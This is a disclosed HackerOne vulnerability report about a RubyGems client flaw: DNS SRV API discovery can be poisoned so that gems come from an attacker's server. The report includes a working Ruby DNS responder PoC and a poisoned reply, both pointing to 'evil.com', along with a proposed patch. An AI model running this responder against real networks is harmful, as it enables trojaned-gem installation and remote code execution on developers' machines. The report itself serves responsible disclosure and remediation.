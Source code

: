# Request Hijacking Vulnerability in RubyGems 2.6.11 and earlier

## Report Details
- **Report ID**: 218088
- **URL**: https://hackerone.com/reports/218088
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-04-02T17:31:05.933Z
- **Disclosed**: 2017-08-30T23:36:42.991Z

## Reporter
- **Username**: claudijd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
**Description:**

The RubyGems client supports a gem server API discovery functionality,
which is used when pushing or pulling gems to a gem distribution/hosting
server, like RubyGems.org.  This functionality is provided via a SRV DNS
request to the users gem source hostname prepended with "_rubygems._tcp.".
The response to this request tells the RubyGems client (aka: the gem
command) where the users gem server API is.  In the default RubyGems
scenario, with a gem source of https://rubygems.org, the users SRV DNS
request and reply will look like this:

    ~ $ dig srv _rubygems._tcp.rubygems.org +short
    0 1 80 api.rubygems.org.

Due to a deficiency in DNS response verification, a MiTM positioned 
attacker can poison the DNS response to this record response and force
the client to unknowingly download and install Ruby gems from an attacker
controlled gem server in an alternate security domain.  An example of
such a scenario would look like so:

    ~ $ dig _rubygems._tcp.rubygems.org SRV +short
    0 0 53 evil.com/api.rubygems.com.

In such a scenario, the attacker is able to serve the client malicious gem
content, resulting in trivial remote code execution scenarios.  For
example, the attacker could simply modify the gem source code and trigger
code execution via the extensions API at install time on the client machine
(a gem trojaning technique described by Ben Smith in his "Hacking with
Gems" presentation at Aloha Ruby Conference in 2012 -
https://www.youtube.com/watch?v=z-5bO0Q1J9s)/

This vulnerability has the same net effect/impact as [CVE-2015-3900](https://nvd.nist.gov/vuln/detail/CVE-2015-3900) and
[CVE-2015-4020](https://nvd.nist.gov/vuln/detail/CVE-2015-4020).

**Affected method in Gem::RemoteFetcher:**

https://github.com/rubygems/rubygems/blob/5096fa35c1ca3e0a7d175aaf9d77cd93114fd977/lib/rubygems/remote_fetcher.rb#L101-L119

**PoC DNS SRV Responder:**

    #!/usr/bin/env ruby
    require 'rubydns'
    require 'rubydns/system'
    INTERFACES = [
    	[:udp, "0.0.0.0", 53],
    	[:tcp, "0.0.0.0", 53]
    ]
    Name = Resolv::DNS::Name
    IN = Resolv::DNS::Resource::IN	
    RubyDNS::run_server(:listen => INTERFACES) do
      match(//, IN::SRV) do |transaction|
        transaction.respond!(0,0,53,"evil.com/api.rubygems.com")
      end
    end

**Recommendations:**

Consider this small patch to address the immediate attack vector...

    -      if /\.#{Regexp.quote(host)}\z/ =~ target
    +      if (/\.#{Regexp.quote(host)}\z/ =~ target) && !target.include?("/")

Also, consider moving away from doing API discovery via DNS.  Would recommend 
moving to HTTPS, where you will have a stronger transport security chain.

**References (these are not new, just references prior work here to help triage team understand impact):**

- https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-007/?fid=6356
- https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-009/?fid=6478
- https://speakerdeck.com/claudijd/trojaned-gems-you-cant-tell-youre-using-one
- http://blog.rubygems.org/2015/05/14/CVE-2015-3900.html

## Attachments
No attachments
